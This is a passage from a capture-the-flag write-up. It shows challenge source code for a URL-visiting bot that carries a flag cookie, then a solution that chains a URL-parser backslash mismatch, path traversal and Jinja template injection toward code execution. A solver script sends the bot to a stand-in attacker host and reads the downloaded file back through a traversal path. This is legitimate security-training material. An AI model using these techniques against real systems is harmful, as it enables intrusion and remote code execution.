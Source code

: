 ```python:app.py
        return f"Error parsing URL: {str(e)}", 400

    thread = threading.Thread(target=run_security_scan_with_flag, args=(url,))
    thread.start()

    return render_template('security.html', 
                         message="Security scan initiated! Results will be processed in the background.")

def run_security_scan_with_flag(url):
    """Simulate security scanning by opening URL in headless Chrome with flag cookie"""
    try:

        proc = subprocess.Popen(['google-chrome', url, "--no-sandbox", "--disable-gpu", "--disable-dev-shm-usage", f"--cookie=flag={flag}; Domain=example.com; Path=/; Secure; HttpOnly; SameSite=Strict"])        
        time.sleep(25)  
        proc.terminate()
    except Exception as e:
        print(f"Error running security scan: {e}")
```

### Solution

You probably cannot upload HTML using `POST /upload` because its extension will always be `.jpg`, so we need to find another way to upload a file that ends with `.html`.

In `urlparse`, the backslash is treated litteraly, but in Chrome, the backslash is evaluated as forward slash. As a result, for `http://attacker.com\@example.com/`, `urlparse` recognize `attacker.com\` as userinfo and `example.com` as hostname. On the other hand, Chrome recognize it as `http://attacker.com/@example.com/`, so `attacker.com` will be the hostname.

In `POST /view`, there's no path traversal check, so you can render any file unless it ends in `.html`. Also, the file is passed to `render_template_string`, so Jinja SSTI is possible here.

You can make the bot visit anywhere, so made it visit my website which downloads an HTML file. Then, I loaded the downloaded file using `POST /view`, which leads to SSTI then RCE.

```python:solution/solver.py
import requests

URL = "http://231bc4ca57.ctf.0bscuri7y.xyz/"
# URL = "http://localhost:5000/"
EVIL = "https://attacker.com"

s = requests.session()
user = {
    "username": "foo",
    "password": "bar"
}
r = s.post(URL + "register", data=user)
r = s.post(URL + "login", data=user)

r = s.post(URL + "check-url", data={
    "url": EVIL + "\\@example.com"
})

r = s.get(URL + "view", params={
    "name": "../../../../home/ctf/Downloads/x"
})
print(r.status_code)
print(r.text)
```
